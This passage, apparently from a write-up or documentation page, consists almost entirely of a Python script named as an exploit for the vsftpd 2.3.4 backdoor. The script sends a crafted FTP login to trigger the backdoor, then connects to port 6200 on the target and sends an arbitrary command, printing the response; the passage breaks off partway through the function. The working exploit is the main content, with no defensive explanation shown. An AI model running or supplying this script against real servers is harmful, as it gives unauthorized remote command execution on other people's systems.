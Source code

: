 	![3](img/3.png)

=== "vsftpd-2.3.4-exploit.py"

	``` python
	#!/usr/bin/python3
	import socket
	import sys
	import time


	def exploit(ip, port, command):
	    """ Triggers vsftpd 2.3.4 backdoor and prints supplied command's output """

	    try:
	        print('[*] Attempting to trigger backdoor...')
	        ftp_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	        ftp_socket.connect((ip, port))

	        # Attempt to login to trigger backdoor
	        ftp_socket.send(b'USER letmein:)\n')
	        ftp_socket.send(b'PASS please\n')
	        time.sleep(2)
	        ftp_socket.close()
	        print('[+] Triggered backdoor')

	    except Exception:
	        print('[!] Failed to trigger backdoor on %s' % ip)

	    try:
	        print('[*] Attempting to connect to backdoor...')
	        backdoor_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	        backdoor_socket.connect((ip, 6200))
	        print('[+] Connected to backdoor on %s:6200' % ip)
	        command = str.encode(command + '\n')
	        backdoor_socket.send(command)
	        response = backdoor_socket.recv(1024).decode('utf-8')
	        print('[+] Response:\n', response, sep='')
	        backdoor_socket.close()
